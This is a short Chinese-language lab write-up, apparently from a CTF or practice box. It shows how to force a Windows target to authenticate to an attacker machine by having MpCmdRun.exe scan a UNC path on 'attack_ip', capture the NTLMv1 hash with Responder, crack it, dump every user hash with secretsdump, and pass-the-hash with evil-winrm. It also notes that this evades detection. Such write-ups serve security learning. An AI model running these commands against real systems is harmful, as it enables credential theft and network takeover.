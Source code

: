 ## Responder捕获破解ntlmv1 hash进行提权  

在这里我们又有一个新概念，[靠山吃山](https://lolbas-project.github.io/)，意思是用目标机器自带的工具进行操作，在真实对抗中可以有效防止蓝队检测，那么在这台靶机中，C:\Program Files\Windows Defender\MpCmdRun.exe是一个可以利用的工具。  
我们修改Responder.conf的Challenge值为1122334455667788以便可以在前面提到的crack.sh破解。  
```
./Responder.py -I eth0 -wrf -v
```
开启监听，准备捕获net-ntlm hash
```
.\MpCmdRun.exe -Scan -scantype 3 -File \\attack_ip\noexist
```
这个mpcmdrun利用方式和那个网站的不同，所以需要记下来。  
让windows靶机访问我们的攻击机进行一个认证连接，随后responder即可捕获net-ntlm hash，需要注意的是靶机进行认证时用的APT$这个账户，而不是history记录中提到的管理员账户  
![](img/2024-03-16-18-07-23.png)  
随后使用ntlmv1.py进行hash分析提取，以得到我们想要的NTHASH  
![](img/2024-03-16-17-55-28.png)  
并且ntlmv1.py会告诉我们用crack.sh破解的hash，以及hashcat。随后网站会发邮件告诉我们ntlm hash，接下来用secretsdump.py进行转储以获得所有用户hash，这样才算成功。  
![](img/2024-03-16-18-00-46.png)  
现在我们就可以evil-winrm进行pth了。  